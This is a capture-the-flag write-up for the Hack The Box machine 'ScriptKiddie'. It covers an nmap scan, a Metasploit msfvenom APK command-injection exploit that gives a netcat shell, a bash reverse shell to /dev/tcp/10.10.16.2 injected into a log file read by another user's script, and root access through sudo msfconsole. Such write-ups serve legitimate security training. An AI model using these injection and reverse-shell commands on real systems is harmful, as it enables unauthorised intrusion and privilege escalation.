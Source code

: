 
![Image ScriptKiddie](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/ScriptKiddie/ScriptKiddie1.png)


## --------------->> ScriptKiddie <<----------------


// We start with nmap scan 

    $nmap -sV -A -Pn -T4 10.10.10.226 -p-
------

    Nmap scan report for 10.10.10.226
    Host is up (0.62s latency).
    Not shown: 65483 closed tcp ports (conn-refused), 50 filtered tcp ports (no-response)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
    |   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
    |_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
    5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
    |_http-title: k1d'5 h4ck3r t00l5

// Navigating to http://10.10.10.226:5000/ shows us a webpage that connects with linux machine tools

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/ScriptKiddie/1.png)

- nmap scan - port scanner

- msfvenow payload generator to: Windows, Linux, Android

- searchsplois - exploitDB vulnerability library

// Searching for vulnerabillities on Werkzeug didnt end with success

// So i tried to search vulnerabilities on msfvenom and Indeed find one

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/ScriptKiddie/2.png)

    msf6 > search msfvenom
    msf6 > use 0
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.16.2
    lhost => 10.10.16.2
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

    [+] msf.apk stored at /home/user/.msf4/local/msf.apk

// First open a listiner with nc

    $ nc -lvnp 4444
    listening on [any] 4444 ...

// And lets upload it

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/ScriptKiddie/3.png)

// We got a shell as 'kid'!

    $ nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [10.10.16.2] from (UNKNOWN) [10.10.10.226] 33644

    id
    uid=1000(kid) gid=1000(kid) groups=1000(kid)

// Lets upgrade shell with python tty

    python3 -c 'import pty; pty.spawn("/bin/bash");'
    kid@scriptkiddie:~/html$ ls

// And we got user flag !

    kid@scriptkiddie:~$ cat user.txt	
    cat user.txt
    ab89861.....................



### -----Privilleges Escalation------


// When searching the machine i have found another user called 'pwn' 

    kid@scriptkiddie:~/home$ ls
    ls
    kid  pwn

// Searching in his directory i have found bash script called 'scanlosers.sh'


    kid@scriptkiddie:~/home$ cd pwn
    cd pwn
    kid@scriptkiddie:~/home/pwn$ ls
    ls
    recon  scanlosers.sh

// Lets see the script

    kid@scriptkiddie:~/home/pwn$$ cat scanlosers.sh
    cat scanlosers.sh
    #!/bin/bash

    log=/home/kid/logs/hackers

    cd /home/pwn/
    cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    done

    if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

// It seems that this file take output from /home/kid/logs/hackers

// Navigating to there i could see that we have write permissions on 'hackers' file

    kid@scriptkiddie:~/logs/$ ls -l
    -rw-rw-r-- 1 kid  pwn  0 Feb 3  2020 hackers

// So, it seems we can inject our script to there, first we open a listiner

    $ nc -lvnp 1445
    listening on [any] 1445 ...

// some searchs and tried lead me to this query

    kid@scriptkiddie:~/logs$ echo "  ;/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.2/1445 0>&1' # " >> hackers 

// And we got a shell as 'pwn'!

    $nc -lvnp 1445
    listening on [any] 1445 ...
    connect to [10.10.16.2] from (UNKNOWN) [10.10.10.226] 52734
    bash: cannot set terminal process group (879): Inappropriate ioctl for device
    bash: no job control in this shell
    pwn@scriptkiddie:~$ id
    id
    uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
    pwn@scriptkiddie:~$ 

// Running sudo -l to see what sudo permissions we have

    pwn@scriptkiddie:~$ sudo -l
    sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

// We can run msfconsole with sudo !

// Since msfconsole have it a framework and also have shell then we can run shell from msfconsole as root

// And get the root flag !

    pwn@scriptkiddie:~$ sudo msfconsole
    sudo msfconsole


     ______________________________________________________________________________
    |                                                                              |
    |                          3Kom SuperHack II Logon                             |
    |______________________________________________________________________________|
    |                                                                              |
    |                                                                              |
    |                                                                              |
    |                 User Name:          [   security    ]                        |
    |                                                                              |
    |                 Password:           [               ]                        |
    |                                                                              |
    |                                                                              |
    |                                                                              |
    |                                   [ OK ]                                     |
    |______________________________________________________________________________|
    |                                                                              |
    |                                                       https://metasploit.com |
    |______________________________________________________________________________|


           =[ metasploit v6.0.9-dev                           ]
    + -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
    + -- --=[ 592 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 7 evasion                                       ]

    Metasploit tip: Adapter names can be used for IP params set LHOST eth0

    msf6 > cd ..
    msf6 > cd ..
    msf6 > cd root
    msf6 > cat root.txt
    [*] exec: cat root.txt

    b2b0ab46..................
